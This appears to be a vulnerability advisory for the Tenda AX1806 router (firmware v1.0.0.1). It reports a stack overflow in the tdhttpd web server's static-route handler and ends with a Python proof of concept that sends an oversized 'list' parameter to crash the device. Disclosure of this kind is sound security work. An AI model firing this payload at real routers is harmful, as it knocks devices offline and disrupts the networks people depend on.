


## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the `fromSetRouteStatic `function, which can be accessed via the URL `goform/SetStaticRouteCfg`.



In function `FUN_000519b8`, the function `sscanf` is called to split it and copy to stack buffer without checking its length.



## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"list": b'A'*0x400+b',A,A,A'
}
res = requests.post("http://127.0.0.1/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

